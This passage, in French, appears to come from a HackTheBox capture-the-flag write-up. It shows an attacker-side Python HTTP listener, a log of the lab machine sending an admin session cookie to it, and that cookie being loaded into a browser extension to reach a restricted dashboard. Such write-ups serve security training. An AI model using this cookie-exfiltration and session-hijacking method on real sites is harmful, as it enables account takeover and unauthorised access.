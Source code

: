 Avant de lancer l'attaque, il faut créer un serveur pour récupérer les cookies.
```bash
python3 -m http.server 80
```

Une fois que l'attaque est lancée, on peut voir que le serveur a reçu les cookies.
```bash
[Mar 26, 2024 - 14:08:42 (CET)] exegol-htb /workspace: python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.11.8 - - 26/Mar/2024 14:15:48] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```
Nous avons recu le cookie is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

On peut voir que l'on ne peut pas se connecter au /dashboard 
![cookie](e.png)

Du coup nous allons essayer de connecter au /dashboard. Pour ça nous allons utiliser le cookie que nous avons reçu.
 
 on va mettre le cookie dans une extension de navigateur avec [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search)

 ![upload_cookie](f.png)


 ![upload_cookie](g.png)
